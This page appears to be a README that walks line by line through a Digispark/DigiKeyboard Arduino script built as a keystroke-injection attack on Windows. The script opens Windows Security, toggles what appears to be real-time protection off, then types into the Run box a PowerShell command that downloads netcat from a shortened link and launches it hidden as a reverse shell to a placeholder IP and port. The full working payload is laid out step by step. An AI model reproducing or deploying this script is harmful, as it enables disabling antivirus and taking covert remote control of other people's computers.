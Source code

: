 <h2> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text Here is a breakdown of each line of code:</i></div></h2>

<code color="#00979C">"#include "DigiKeyboard.h"</code> => <code>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard."</code>

<code color="#00979C">void setup(){</code>
<em><div><code>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<em><div><code>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>
<em><div><code>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<em><div><code>Another delay of 1000 milliseconds is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.print("virus & threat protection");</code>
<em><div><code>The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(500);</code>
<em><div><code>A delay of 500 milliseconds (0.5 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<em><div><code>The sendKeyStroke() function simulates pressing the Enter key.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(5000);</code>
<em><div><code>A delay of 5000 milliseconds (5 seconds) is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(43);</code>
<em><div><code>The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<em><div><code>Another Enter key press is simulated.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(700);</code>
<em><div><code>A delay of 700 milliseconds (0.7 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<em><div><code>Yet another Enter key press is simulated.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(700);</code>
<em><div><code>Another delay of 700 milliseconds is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>
<em><div><code>The sendKeyStroke() function simulates pressing the Space key.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(2000);</code>
<em><div><code>A delay of 2000 milliseconds (2 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>
<em><div><code>The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<em><div><code>A delay of 1000 milliseconds (1 second) is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>
<em><div><code>The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(500);</code> <em><div><code>A delay of 500 milliseconds (0.5 seconds) is added.</code></em></div>

<code color="#00979C"><code>DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code> <em><div><code>The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(700);</code> <em><div><code>A delay of 700 milliseconds (0.7 seconds) is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code <em><div><code>The print() function is used to simulate typing the provided string, which contains a PowerShell command.</code></em></div>
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<em><div>The sendKeyStroke() function is used to simulate pressing the Enter key.</code></em></div> 
<code color="#00979C">void loop(){}</code> <div><code>This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions.</code></div>
